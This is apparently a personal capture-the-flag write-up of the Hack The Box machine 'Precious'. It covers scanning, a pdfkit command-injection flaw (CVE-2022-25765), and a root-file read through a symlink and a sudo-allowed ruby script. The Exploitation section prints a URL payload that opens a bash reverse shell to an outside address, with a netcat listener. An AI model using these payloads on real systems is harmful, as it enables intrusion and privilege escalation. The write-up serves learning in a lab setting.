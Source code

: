 ## **Hack The Box - Precious**

**Creator:** [Nauten](https://app.hackthebox.com/users/27582)

**Difficulty:** Easy

**Link:** [Precious](https://app.hackthebox.com/machines/513)

---

<ins> **Introduction** <ins>


![infocard](/docs/assets/images/HTB/precious/precious01.png)

*Precious* is an Easy level Linux system on Hack The Box. This machine had me exploit [CVE-2022-25765](https://www.cve.org/CVERecord?id=CVE-2022-25765). Which is a *Command Injection* vulnerability when the URL is not properly sanitized on systems running versions of *pdfkit* older than 0.8.7.2.
Once inside the system I was able to enumerate login credentials for a user with sudo privileges over a dependency update script. Running the script I was able to see that it called to a file that didn't exist on the system, so I created a symbolic link to the *root.txt* file named after the file called in the update script. 
Running the script again with sudo privileges caused it to output the contents of the *symbolic link*, which contained the flag I wanted.

---


<ins> **Enumeration** </ins>

I start every machine off with an *nmap service scan*.

`sudo nmap -sV -sC -O <target_ip>`

![nmap output](/docs/assets/images/HTB/precious/precious02.png)

I can see that port *22/tcp* is open to *ssh* traffic using *OpenSSH 8.4p1* and that port *80/tcp* is open to *http* traffic using *nginx 1.18.0*. I ran *searchsploit* on both but came up empty handed.

![searchsploit nginx](/docs/assets/images/HTB/precious/precious03.png)

![searchsploit openssh](/docs/assets/images/HTB/precious/precious04.png)

I also ran a *nikto* scan on the machine that didn't have very many results. There were a few notes about the header on the *nginx* but outside of that not much else.

`nikto -h <target_ip>`

![nikto](/docs/assets/images/HTB/precious/precious05.png)

---


<ins> **Web Enumeration** </ins>

When I first navigate to the web page I get an error that it doesn't exist. I noticed it convert the *url* to a *host_name*, so to view the web application I had to add the *ip_address* and the *host_name* associated with it to the */etc/hosts* file on my machine.

![/etc/hosts](/docs/assets/images/HTB/precious/precious06.png)

From there I can view a webpage that converts any *url* entered into a submission bar into a *pdf*. Seems kind of handy, except when I tested it only a blank pdf is loaded.

![webpage](/docs/assets/images/HTB/precious/precious07.png)

![blank pdf](/docs/assets/images/HTB/precious/precious08.png)

I went on to do a lot that didn't work, from running *gobuster* and loading the web application in *burp suite* to try to see if I could figure out what was going on. Eventually I got around to inspecting the page soucre of the *pdf* that is created and was able to find the service doing the conversion and it's version *pdfkit v0.8.6*.

![Inspect source](/docs/assets/images/HTB/precious/precious15.png)

![pdfkit version](/docs/assets/images/HTB/precious/precious16.png)

Searching for *pdfkit* vulnerabilities I was able to find [CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

> In versions of pdfkit older than 0.87 the application could be vulnerable command injection where the URL is not properly sanitized.

![CVE](/docs/assets/images/HTB/precious/precious17.png)

---


<ins> **Exploitation**

So I just need to tack a reverse shell onto the end of the url that I have the webpage convert with *pdfkit* and catch it with a *listener* on my host system. 

`nc -l <host_ip> port`

![listener](/docs/assets/images/HTB/precious/precious19.png)

```
  http://10.129.79.142/?name=#{\%20'bash -c "bash -i >& /dev/tcp/10.10.14.16/4242 0>&1"'}
```

The reverse shell was found on [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

![reverse shell](/docs/assets/images/HTB/precious/precious18.png)

The payload starts with a url comprised of the ip address of the target system, `?name=` is a query parameter used to pass additional data to the server through the URL. The `#` is used to concatenate the payload. 
Everything following it gets wrapped in `{}` to indicate the text within them is a command, `%20` is a url encoded space character, then everything to follow is wrapped in `''`,  `bash -c` allows a string to be run as a command, `bash -i` starts and interactive session of bash and `>&` is used to redirect the *stdout* and *stderr* to a file descriptor.
`/dev/tcp/10.10.14.16/4242` is the file descriptor that allows the process to communicate with the *host_ip* on port 4242, then `0>&1` is used to redirect the stdin to the file descriptor.

The results is a shell with the same access rights as the process running the script on the target system, which in this case was *ruby*

![whoami](/docs/assets/images/HTB/precious/precious20.png)

Unfortunately User ruby doesn't have a lot of permissions or even access to read very many files. The home directory lists one other user *henry*, and inside of Henry's home directory is the *user.txt* file containing the user flag. *Ruby* can't read it though.

![henry](/docs/assets/images/HTB/precious/precious21.png)

![nouser.txt](/docs/assets/images/HTB/precious/precious22.png)

I looked around on the file system for anything *ruby* could do to possibly move me to another user and found nothing for a long time. Finally I decided to search for any other files related to user *henry* and found a file that had a *username:password* text format for *henry*.

![Henry Password](/docs/assets/images/HTB/precious/precious23.png)

---


<ins> **Privilege Escalation** </ins>

With Henry's password at hand I'm able to just *ssh* into the machine using the open service on port 22 and then cat the user.txt file once I'm in.

![ssh](/docs/assets/images/HTB/precious/precious24.png)

![User Flag](/docs/assets/images/HTB/precious/precious25.png)

The first thing I do when I get access to a new user on a linux machine is run `sudo -l` to see what they are allowed to do. In Henry's case they are able to run a script that will update the dependencies for *ruby* with root access without a password, so I ran it to see what all it did, which seems to be generate an error.

`sudo /usr/bin/ruby /opt/update_dependencies.rb'

![sudo -l](/docs/assets/images/HTB/precious/precious26.png)

![Dependency Error](/docs/assets/images/HTB/precious/precious27.png)

To me it looked like the script was trying to read the contents of the *dependencies.yml* file and perhaps from there it will try to write in any updates to it, except the file doesn't exist so an error gets generated.

I can create a *symbolic* link to the *root.txt* file and name it *dependencies.yml* and when I run the script using *sudo* the script should read the *root.txt* file with root privileges when it tries to call *dependencies.yml*.

```
ln -s /root/root.txt dependencies.yml 
sudo /usr/bin/ruby /opt/update_dependencies.rb 
```

![root flag](/docs/assets/images/HTB/precious/precious28.png)

![pwned](/docs/assets/images/HTB/precious/precious29.png)

---


<ins> **Final Thoughts** </ins>

This machine was definitely on the Easy side, I'm not sure that's a testament to my own skills improving so much as this one just kind of had everything laid out for me. I think it would actually be a good candidate for the "Beginner Track" if it's not already on one somewhere. 
This was my second time having a real use for symbolic links and my first time actually breaking down a reverse shell payload piece by piece to understand what exactly was going on.
I wasted a lot of time on this one just being unorganized and moving on to new tools before gathering all of the relevant information I had already found. In the future I will definitely be more organized in my approach to machines thanks to *Precious*.




